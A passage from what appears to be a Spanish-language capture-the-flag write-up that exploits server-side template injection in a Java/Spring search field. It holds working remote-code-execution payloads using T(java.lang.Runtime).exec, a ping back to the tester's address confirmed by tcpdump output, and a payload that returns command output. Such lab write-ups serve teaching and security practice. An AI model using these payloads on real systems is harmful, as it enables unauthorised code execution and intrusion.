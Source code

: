 @{7*7}devuelve lo mismo. #{7*7}También funciona, devolviendo un poco más de basura:

![Captura de pantalla de la web](assets/images/Redpandan/imagen_9.png)

## [](#header-2)Punto de contacto de RCE

La carga útil del artículo anterior es ${T(java.lang.Runtime).getRuntime().exec('calc')}. Cambiaré el encabezado $por *y en lugar de ejecutar calc, probaré id:

![Captura de pantalla de la web](assets/images/Redpandan/imagen_10.png)

Parece que el comando se ejecutó, pero no obtengo respuesta. Puedo intentar comunicarme con pingmi host con *{T(java.lang.Runtime).getRuntime().exec('ping -c 1 10.10.14.6')}y funciona:

```
jorge@hacky$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
21:07:24.116693 IP 10.10.11.170 > 10.10.14.6: ICMP echo request, id 2, seq 1, length 64
21:07:24.116743 IP 10.10.14.6 > 10.10.11.170: ICMP echo reply, id 2, seq 1, length 64
```

Alternativamente, existen cargas útiles que devuelven el resultado, como la de la página HackTricks SSTI :

```
{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}
```

Pegar esto en el cuadro de búsqueda textualmente muestra el resultado de id:

![Captura de pantalla de la web](assets/images/Redpandan/imagen_11.png)
